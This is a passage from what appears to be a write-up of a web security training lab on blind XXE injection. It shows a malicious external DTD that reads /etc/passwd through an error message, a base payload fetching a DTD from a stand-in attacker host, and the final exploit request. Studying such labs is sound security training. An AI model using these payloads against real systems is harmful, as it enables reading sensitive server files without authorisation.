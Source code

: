 > Collaborator -> HTTP interaction -> Request to Collaborator&#x20;
>
> GET /?x=3b2cef7412f9 HTTP/1.1
>
> User-Agent: Java/12.0.2

> This technique might not work with some file contents, including the newline characters contained in the /etc/passwd file. This is because some XML parsers fetch the URL in the external entity definition using an API that validates the characters that are allowed to appear within the URL.

### Lab: Exploiting blind XXE to retrieve data via error messages

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, use an external DTD to trigger an error message that displays the contents of the /etc/passwd file.

```
POST /product/stock HTTP/1.1
...
<?xml version="1.0" encoding="UTF-8"?>
	<stockCheck>
		<productId>8</productId>
		<storeId>1</storeId>
	</stockCheck>
```

**Exploit Server ->**

```
File: 
	/exploit.dtd
Body: 
	<!ENTITY % file SYSTEM "file:///etc/passwd">
	<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///notexists/%file;'>">
	%eval;
	%error;
URL: 
	https://exploit-ac9e1fd91e2510aec0bb35eb012600ff.web-security-academy.net/exploit.dtd
```

**Base payload ->**

```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
```

**Answer ->**

```
POST /product/stock HTTP/1.1
...
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-ac9e1fd91e2510aec0bb35eb012600ff.web-security-academy.net/exploit.dtd"> %xxe;]>
	<stockCheck>
		<productId>8</productId>
		<storeId>1</storeId>
	</stockCheck>
```
